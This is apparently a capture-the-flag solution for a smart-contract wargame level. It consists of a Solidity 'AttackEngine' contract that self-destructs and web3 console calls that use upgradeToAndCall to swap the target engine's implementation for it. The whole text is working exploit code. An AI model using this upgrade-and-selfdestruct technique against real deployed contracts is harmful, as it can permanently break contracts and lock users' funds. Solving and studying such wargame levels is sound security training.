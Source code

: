 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity < 0.7.0;

contract AttackEngine {
    function attack() external {
        selfdestruct(address(0));
    }    
}

// 0x70538eB3d582E65a53E7594671B9BBe4C65bc9b5
```



```javascript
> const attackEngineAddr = "0x70538eB3d582E65a53E7594671B9BBe4C65bc9b5";

> const upgradeToAndCallInterface = {
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'newImplementation'
    },{
        type: 'bytes',
        name: 'data'
    }]
};

> const functionCalldata = web3.eth.abi.encodeFunctionCall(
    upgradeToAndCallInterface,
    [
        attackEngineAddr,
        web3.eth.abi.encodeFunctionSignature("attack()")
    ]
);

> await web3.eth.sendTransaction({
    from: player,
    to: engineAddr,
    data: functionCalldata
});
```

Done! 😎

